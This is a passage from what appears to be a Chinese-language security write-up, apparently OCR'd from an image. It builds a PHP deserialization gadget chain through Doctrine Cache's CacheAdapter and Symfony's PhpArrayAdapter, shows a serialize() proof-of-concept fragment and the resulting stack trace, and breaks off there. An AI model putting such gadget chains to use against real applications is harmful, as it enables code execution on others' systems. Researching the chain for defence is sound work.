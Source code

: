 ```plain
$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

在没有任何对象被定义的情况下，成功到达函数，输出如下所示。

```plain
$ php unserialize.php 

Deprecated: is_file(): Passing null to parameter #1 ($filename) of type string is deprecated in /tmp/poc/vendor/symfony/cache/Adapter/PhpArrayAdapter.php on line 391

Fatal error: Uncaught Error: Call to a member function deleteItem() on null in /tmp/poc/vendor/symfony/cache/Adapter/PhpArrayAdapter.php:196
Stack trace:
#0 /tmp/poc/vendor/symfony/cache-contracts/CacheTrait.php(43): Symfony\Component\Cache\Adapter\PhpArrayAdapter->deleteItem('0')
#1 /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(227): Symfony\Component\Cache\Adapter\PhpArrayAdapter->delete('0')
#2 /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#3 /tmp/poc/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#4 {main}
  thrown in /tmp/poc/vendor/symfony/cache/Adapter/PhpArrayAdapter.php on line 196
```

从 PhpArrayAdapter 定义到达代码，如下：
